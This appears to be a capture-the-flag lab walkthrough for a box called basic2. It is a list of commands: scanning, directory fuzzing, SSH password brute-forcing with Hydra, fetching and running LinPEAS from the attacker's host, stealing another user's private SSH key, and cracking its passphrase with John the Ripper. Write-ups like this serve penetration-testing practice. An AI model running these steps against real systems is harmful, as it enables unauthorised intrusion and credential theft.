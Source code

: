 10.10.162.125


# open vpn

```
$ sudo openvpn Desktop/pelapels.ovpn
```

ping
```
$ ping 10.10.159.226
```


# nmap scan
```
$ sudo nmap -sC -sV 10.10.159.226
```

                                                                                                                                                                                         
# search for directories
```
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.10.159.226/FUZZ -fw 22
```

# simple enumeration using enum4linux
```
$ enum4linux -a 10.10.159.226
```


# bruteforcing password for user jan using hydra                                                                                                             ```                                                     
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.162.125 -V
```

# login to user through ssh
```
$ ssh jan@10.10.162.125
```

# maghhost ng file para madownload ng machine yung LinPEAS
```
$ python -m http.server 8001
```

# change directory to /dev/shm/ for us to be able to write
```
jan@basic2:~$ cd /dev/shm/
```

# download LinPEAS
```
jan@basic2:/dev/shm$ wget http://10.18.69.128:8001/linpeas.sh 
```

# make LinPEAS executable by running the command:
```
jan@basic2:/dev/shm$ chmod +x linpeas.sh
```

# run LinPEAS 
```
jan@basic2:/dev/shm$ ./linpeas.sh
```

# found possible private SSH keys 
/home/kay/ .ssh/id_rsa

# change directory to /home/kay
```
jan@basic2:/dev/shm$ cd /home/kay
```

# list files
```
jan@basic2:/home/kay$ ls
```

# found pass.bak

# list permission of the files and directories / hidden files
```
jan@basic2:/home/kay$ ls -la
```

# change directory to .ssh/
```
jan@basic2:/home/kay$ cd .ssh/
```

#list files
```
jan@basic2:/home/kay/.ssh$ ls
```

# found id_rsa

# cat id_rsa
```
jan@basic2:/home/kay/.ssh$ cat id_rsa
```

# save ssh key
```
$ mousepad kay_id_rsa
```


# run the ssh2john script, and write the results of it into a file:
```
ssh2john kay_id_rsa > kay_hash
```

# crack ssh private key with john the ripper
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash
```


# chmod 
```
$ chmod 600 kay_id_rsa
```

# ssh to user kay using the passphrase
```
ssh -i kay_id_rsa kay@10.10.162.125
```

# list down files
```
kay@basic2:~$ ls
```

# print pass.bak
```
kay@basic2:~$ cat pass.bak
```













